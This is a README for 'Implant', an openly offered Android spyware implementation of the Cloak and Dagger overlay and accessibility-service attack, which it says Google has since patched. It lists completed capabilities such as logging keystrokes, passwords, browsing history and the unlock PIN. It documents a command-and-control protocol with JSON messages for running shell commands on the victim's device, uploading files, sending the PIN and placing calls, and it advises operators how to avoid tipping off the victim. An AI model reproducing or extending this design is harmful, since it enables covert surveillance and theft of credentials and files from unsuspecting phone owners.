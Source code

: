 Update
======
Google made the BIND_ACCESSIBILITY_SERVICE only available to system apps.
This attack no longer works.
Feel free to get it working ;).

Cloak and Dagger Implementation
===============================
Implant is an (unfinished) implementation of the Android Clock and Dagger vulnerability in Kotlin.
To learn more about Cloak and Dagger see, http://cloak-and-dagger.org.

If the overlays do not display correctly on your phone, adjust the overlay dimensions in the
relevant Stage subclasses.
Currently only the AccessibilityStage of the attack automatically determines the position of the
UI elements being clickjacked.

You can contact me at cooper@cooperthecoder.com.
Pull requests, questions, suggestions and criticism are welcomed.


Requirements
============
+ Android Studio with Kotlin support (3.0+ or with Kotlin plugin)

Installing Implant
==================
To install Implant, import this code into a version of Android Studio with Kotlin support.
Since Android only grants the SYSTEM_ALERT_WINDOW permission to apps from the Play Store, you'll
have to manually enable the permission and press the back button to begin the attack, or publish
it to the Play Store.
Implant uses coloured translucent overlays to show exactly what is going on in the background.
Simply click the holes in the overlay to progress the attack.

Supported Devices
-----------------
+ Nexus 5X Nougat
+ Nexus 5X Marshmallow
+ Nexus 4 Lollipop

Accessibility Service Capabilities
==================================
Done
----
+ Log non-password keystrokes
+ Log browser history
+ Log selected text
+ Log applications used
+ Log Security Pin
+ Log password keystrokes

To Do
-----
+ Install additional payload from an APK

Overlay Capabilities
====================
Done
----
+ Determine the position of our AccessibilityService in the Settings Menu dynamically
+ Clickjacking -> a11y working on some screen sizes

To Do
-----
+ Determine the location of all clickjacking targets dynamically

Command and Control
===================
Implant uses push notifications in order to receive commands from the C&C.
This will enable the operator to interact with devices under her control in a chat-like
manner.
To avoid finishing the victim's mobile data allowance, no large payloads are transmitted
on mobile connections.
Instead, payloads are sent via push as URLs and added to a queue locally to be
downloaded when the victim connects to an unmetered Wi-Fi network.
Large uploads are handled similarly.
When an upload command is sent via push, the data will be encrypted using the server's
public key and queued for upload when the victim connects to Wi-Fi.

Supported Operations
--------------------
+ Queue files for upload when device is idle and connected to Wi-Fi
+ Execute shell commands from the C&C

Push Service
------------
The CommandService is started whenever the device is idle and connected to an
unmetered network.
It opens a MQTT connection to the C&C and listens for commands.
On startup, the client signals it is ready to receive commands by sending its unique
Android device ID.
When the user disconnects from the unmetered network, this service should stop
immediately and close the socket.
All messages between client and server represent remote function calls.

#### Message Format
Key | Type | Description
----|------|----------------
command | String | The function to be called on the remote end.
arguments | Map(String -> String) | Arguments to be passed to the function.
nonce | String | A unique ID to allow for tracking of command execution. The nonce does not have to be random but must be unique

#### Execute
The `execute` command allows the server to execute a shell command on the device.
```
{
    "command": "execute",
    "nonce": "1234-5467-4353-6468",
    "arguments": {
        "shell_command": "whoami"
    }
}
```

#### Upload
The `upload` command allows the server to queue a file on the device for uploading when the device
is idle and connected to an unmetered network.
```
{
    "command": "upload",
    "nonce": "1234-5467-4353-1359",
    "arguments": {
        "filename": "/sdcard/Documents/CompanySecrets.docx"
    }
}
```

#### Pin
The `pin` command sends the device's unlock PIN to the server.
```
{
    "command": "pin",
    "nonce": "1234-5467-4353-1234",
    "arguments": {}
}
```

#### Call
The `call` command instructs the phone to call a particular number.
Use this with care, you may tip off the victim.
```
{
    "command": "call",
    "nonce": "1234-3948-1230-1241",
    "arguments": {
        "phone_number": "1954321234"
    }
}
```

#### Cloak
The `cloak` command activates the overlay used to trick the user into enabling the Dagger.
Use of this command does not guarantee that the Dagger will be activated.
```
{
    "command": "cloak,
    "nonce": "1234-3948-7680-1241",
    "arguments": {}
}
```


#### Reply
Sometimes, the output of a command is useful.
The `reply` command should be used to send a reply to the server.
Since there is no guarantee that commands will execute in order, the nonce should be used to
track which command the response is for.
```
{
    "command": "reply"
    "nonce": "1234-5467-4312-0987"
    "arguments": {
        "command": "1234-5467-4353-1359",
        "output": "/sdcard/Documents/CompanySecrets.docx queued for upload.",
        "error": ""
    }
}
```

All messages are encrypted with the server's public key before being sent to the C&C via a TLS 
connection.


Disclaimer
==========
I am not responsible for anything illegal, immoral or stupid you do with this code.
Please use it for educational purposes only.
